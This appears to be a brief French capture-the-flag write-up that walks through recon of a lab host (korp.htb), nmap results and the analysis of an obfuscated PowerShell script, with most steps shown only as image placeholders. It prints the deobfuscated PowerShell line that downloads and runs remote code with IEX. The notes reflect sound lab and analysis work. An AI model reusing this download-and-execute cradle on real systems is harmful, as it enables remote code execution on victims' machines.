

Ajout dans le /etc/hosts : 


Lets WEB : 
`unable to connect...



Hum : `NMAP`




*Werkzeug* *httpd 3.1.3* > Vulnérable si jamais 

Comprends pas trop là ....

On a un fichier **.ps1** 



La commande obfusqué est : 


`IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")`

Invoke-Expression > 

hum >> 




On va transformer la commande Powershell avec un **wget**




